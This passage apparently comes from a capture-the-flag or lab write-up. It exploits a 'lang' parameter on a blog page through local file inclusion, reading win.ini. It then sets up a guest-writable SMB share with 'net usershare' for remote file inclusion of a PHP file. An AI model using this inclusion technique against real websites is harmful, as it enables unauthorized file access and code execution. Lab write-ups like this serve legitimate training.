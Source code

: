 Going to `/blog`, we see a `lang` parameter in the URL. Testing for LFI, if we put `\windows\win.ini`, the page loads and we can see the file in the code.

![](assets/Pasted%20image%2020250612104147.png)

Trying an RFI UNC attack, we could try to capture the user hash by trying to connect to an `impacket-smbserver`, but it doesn't work, so we can try `net usershare` to host an SMB share and execute files.

```shell
$ service smbd start   
# important to create the share outside user homes
$ cd /srv
$ mkdir share
$ cd share
$ sudo net usershare add test $(pwd) '' 'Everyone:F' guest_ok=y
```

Then from the webpage, we can read an `info.php`, for example.
